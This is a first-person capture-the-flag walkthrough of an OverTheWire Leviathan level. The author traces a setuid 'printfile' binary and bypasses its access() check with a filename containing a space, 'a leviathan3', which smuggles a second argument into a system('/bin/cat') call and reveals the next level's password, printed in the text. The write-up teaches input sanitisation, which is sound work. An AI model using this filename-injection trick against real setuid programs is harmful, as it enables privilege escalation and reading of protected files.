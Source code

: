 For this level, I use `ls -la` and find `printfile` executable with owner as leviathan3. The executable also gives permissions to leviathan2 for executing like so:
```
leviathan2@gibson:~$ ls -la
total 36
drwxr-xr-x  2 root       root        4096 Oct  5 06:19 .
drwxr-xr-x 83 root       root        4096 Oct  5 06:20 ..
-rw-r--r--  1 root       root         220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root       root        3771 Jan  6  2022 .bashrc
-r-sr-x---  1 leviathan3 leviathan2 15060 Oct  5 06:19 printfile
-rw-r--r--  1 root       root         807 Jan  6  2022 .profile
```

From executing the printfile, I reckon the command works similar to `cat` like so:

```
leviathan2@gibson:~$ ./printfile /etc/host.conf
# The "order" line is only used by old versions of the C library.
order hosts,bind
multi on
```

As usual, I use objdump to look at its stack contents:
```
leviathan2@gibson:~$ objdump -T printfile

printfile:     file format elf32-i386

DYNAMIC SYMBOL TABLE:
00000000      DF *UND*  00000000 (GLIBC_2.34) __libc_start_main
00000000      DF *UND*  00000000 (GLIBC_2.0)  printf
00000000      DF *UND*  00000000 (GLIBC_2.4)  __stack_chk_fail
00000000      DF *UND*  00000000 (GLIBC_2.0)  geteuid
00000000      DF *UND*  00000000 (GLIBC_2.0)  puts
00000000      DF *UND*  00000000 (GLIBC_2.0)  system
00000000  w   D  *UND*  00000000  Base        __gmon_start__
00000000      DF *UND*  00000000 (GLIBC_2.0)  setreuid
00000000      DF *UND*  00000000 (GLIBC_2.0)  snprintf
00000000      DF *UND*  00000000 (GLIBC_2.0)  access
0804a004 g    DO .rodata        00000004  Base        _IO_stdin_used
```

From the table, I didn't infer much so I then tried getting the password directly since the owner is leviathan3 but failed:

```
leviathan2@gibson:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```


So, I tried ltracing the file like so:

```
leviathan2@gibson:~$ ltrace ./printfile /etc/host.conf
__libc_start_main(0x80491e6, 2, 0xffffd684, 0 <unfinished ...>
access("/etc/host.conf", 4)                                                                                                         = 0
snprintf("/bin/cat /etc/host.conf", 511, "/bin/cat %s", "/etc/host.conf")                                                           = 23
geteuid()                                                                                                                           = 12002
geteuid()                                                                                                                           = 12002
setreuid(12002, 12002)                                                                                                              = 0
system("/bin/cat /etc/host.conf"# The "order" line is only used by old versions of the C library.
order hosts,bind
multi on
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                              = 0
+++ exited (status 0) +++
```

From the stack trace, `access` is most likely a check to see if you have permissions for the file, the `snprintf` stores chars in an array buffer, `getuid()` and set `reuid` likely mean it changes user permission and `system` calls cat.

From this, we need to somehow bypass the access check so that we can execute the command with elevated permissions (likely leviathan3).

So, we need to make a temporary file to call the `./printfile` 
executable. 
So, I made my temp folder with `mktemp -d` and stored a test file called `file.txt`.

However, what is strange to me is that `printfile` cannot execute my `file.txt` that is under the tmp file even with the same permissions. I even gave permissions like `chmod 777` to the test file which does not work.

After googling, the correct way to do it is to create a payload like so: `touch '<tmpDir>/a leviathan3'` and switch directory to where the password is stored and call the printfile command there and you'll get the output like so:

```
leviathan2@gibson:/etc/leviathan_pass$ ~/printfile '/tmp/tmp.0wDX4pzYkj/a leviathan3'
/bin/cat: /tmp/tmp.0wDX4pzYkj/a: Permission denied
Q0G8j4sakn
```

So, what I have learnt: you can use a filename as a payload with the file you want to bypass certain functions. Using filenames as payloads can be a powerful method to exploit poorly written programs. So, we need to sanitize and validate inputs, even if they're filenames.
This can be seen in the `ltrace`: 

```
leviathan2@gibson:/etc/leviathan_pass$ ltrace ~/printfile '/tmp/tmp.0wDX4pzYkj/a leviathan3'
__libc_start_main(0x80491e6, 2, 0xffffd644, 0 <unfinished ...>
access("/tmp/tmp.0wDX4pzYkj/a leviathan3"..., 4)                                                                                    = 0         acess is bypassed with the filename wow
snprintf("/bin/cat /tmp/tmp.0wDX4pzYkj/a l"..., 511, "/bin/cat %s", "/tmp/tmp.0wDX4pzYkj/a leviathan3"...)                          = 41        
geteuid()                                                                                                                           = 12002
geteuid()                                                                                                                           = 12002
setreuid(12002, 12002)                                                                                                              = 0
system("/bin/cat /tmp/tmp.0wDX4pzYkj/a l".../bin/cat: /tmp/tmp.0wDX4pzYkj/a: No such file or directory                                      the cat tmpfile is not allowed as the owner is leviathan2
/bin/cat: leviathan3: Permission denied
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                              = 256
+++ exited (status 0) +++
```
